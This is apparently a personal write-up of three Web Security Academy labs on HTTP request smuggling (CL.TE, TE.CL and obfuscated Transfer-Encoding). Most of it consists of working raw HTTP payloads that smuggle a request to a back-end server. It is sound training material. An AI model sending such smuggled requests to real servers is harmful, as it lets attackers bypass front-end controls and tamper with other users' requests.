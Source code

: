 ## Lab - 1: HTTP request smuggling, basic CL.TE vulnerability (P)

- This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method. To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

- send this request twice

```
POST / HTTP/1.1
Host: 0a9a0041031fbe7dc1fe13ec000c0081.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:105.0) Gecko/20100101 Firefox/105.0
Connection: keep-alive
Content-TYpe: application/x-www-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

G
```

- front end server will accept all and back end will execute only 0 and G is left for the first request and G is appended to the second request and will get an error

---

## Lab - 2: HTTP request smuggling, basic TE.CL vulnerability (P)

- This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method. To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

```
POST / HTTP/1.1
Host: 0ae3007c043a9f14c0d3485f00be006d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Connection: alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

- Two `Enter` after 0 is important.

---

## Lab - 3: HTTP request smuggling, obfuscating the TE header (P)

- This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method. To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

```
POST / HTTP/1.1
Host: 0a0a00840493184ac0ff04e2006f00db.web-security-academy.net
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: xchunked
Connection: keep-alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

---
